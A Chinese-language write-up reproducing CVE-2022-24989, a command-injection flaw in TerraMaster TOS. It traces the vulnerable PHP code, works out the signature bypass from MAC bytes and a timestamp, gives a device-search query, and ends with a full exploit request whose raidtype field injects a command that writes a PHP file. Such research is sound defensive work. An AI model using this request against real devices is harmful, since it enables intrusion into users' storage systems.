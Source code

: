 # TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24989

## 漏洞描述

TerraMaster TOS mobile.class.php文件的createRaid方法存在远程命令执行漏洞 ，攻击者配合 CVE-2022-24990漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.31 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1647617923369-02e2a7e7-7705-4e12-a021-49ca44300125-20220319162830411.png)

我们查看 `mobile.class.php文件`中的 `createRaid方法`, 其中参数`raidtype和参数diskstring`均为可控参数

![img](../../../.vuepress/public/img/1647671945531-f5329a4c-12dd-4957-b438-3001e66f146b.png)

注意这一行代码并跟踪 `volume_make_from_disks` 方法

```php
$ret = $vol->volume_make_from_disks($this->in['raidtype'], $filesystem, $disks, $volume_size);
```

![img](../../../.vuepress/public/img/1647672020849-c216e10d-2c24-4476-8bf9-ef0936ea39cb.png)

可以看到方法调用中的 `$levek` 参数是可控参数，传入 `_backexec`方法中，可导致命令拼接执行恶意命令

![img](../../../.vuepress/public/img/1647672331076-640ed4a8-edbd-458b-a6c8-30e68b70ec64.png)

回到 `mobile.class.php` 文件开头的定义

```php
static $notCheck = [
        "webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected",'createid',
        'user_create','user_bond','user_release','login', 'logout', 'checkCode', "wapNasIPS"
    ];
    //不验证头信息是否匹配...
    static $notHeader = ["fileDownload", "videoPlay", "imagesThumb", "imagesView", "fileUpload", "tempClear", "wapNasIPS", "webNasIPS", "isConnected"];
    private static $U = null;
    private static $filter = array(".", "..", ".svn", "lost+found", "aquota.group", "aquota.user");
```

发现 `$notHeader` 数组中并不存在方法名 `createRaid`，看一下 api.php 中的定义

![img](../../../.vuepress/public/img/1647676041684-2edf4cd9-527a-4032-b467-181f50477dd7.png)

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

由于实例化的过程中存在验证请求头，所以需要通过if判断才能调用该方法进行命令执行

```php
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
```

看到这里主要是两个参数值得关注: `HTTP_TIMESTAMP` 和 `HTTP_SIGNATURE`

跟踪方法 tos_encrypt_str 在源码中并没有找到，我们查看下php扩展函数列表

![img](../../../.vuepress/public/img/1647677029047-a3d7d35e-581c-46b3-af90-42299e45ec6f.png)

![img](../../../.vuepress/public/img/1647676739320-049b5cab-1197-4c01-a34e-df83e789fb8f.png)

下载这个 so文件使用 IDA打开 搜索字符串 `tos_encrypt_str`

![img](../../../.vuepress/public/img/1647676834698-5168b3ee-7126-499e-91c5-80b77d9cf0e2.png)

![img](../../../.vuepress/public/img/1647676935156-1f51cd3b-0c11-4eaa-afcf-18851d93f0d3.png)

跟进方法 `get_mac_addr` 

![img](../../../.vuepress/public/img/1647676961925-d1d9b839-9594-45bf-ab6e-4dac2fd11300.png)

这里可以看到获取 `eth0网卡`的 `mac`，再经过 `php_sprintf`， 跟进下 `&ubk_38fa`

![img](../../../.vuepress/public/img/1647677368472-e0c3db7d-e2a5-4b09-aa14-981b183931ef.png)

实际上就是获取了 mac的最后3个字节, 例如mac地址为: 11.22.33.44.55.66, 经过后获取为 445566

![img](../../../.vuepress/public/img/1647677479277-7433cd43-6bb0-4451-b9ef-bd27b78a585b.png)

回到函数执行的地方，我们就可以知道，实际上这个函数等同于

```php
# mac addr 11:22:33:44:55:66
tos_encrypt_str(xxxxxx) = md5(445566xxxxxx)
```

看看之前的判断代码

```php
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

TIMESTAMP参数为当前时间戳，这里的判断逻辑就很清楚了

```php
md5(mac地址后三字节 + 当前时间戳) = $_SERVER['HTTP_SIGNATURE']
```

通过之前提到的漏洞 **CVE-2022-24990** 泄漏的 PWD和mac地址，我们就可以利用这个命令执行漏洞了, 通过刚刚的逻辑写POC获取信息

![image-20220320004751660](../../../.vuepress/public/img/image-20220320004751660.png)

在发送请求包写入 php恶意文件

```php
POST /module/api.php?mobile/createRaid HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS

raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX
```

![img](../../../.vuepress/public/img/1647678418656-fda11f34-0721-4123-999d-16492413a06d.png)

访问写入的文件

![img](../../../.vuepress/public/img/1647678464951-45d58af7-9f32-4f0b-9d63-2059eb36682c.png)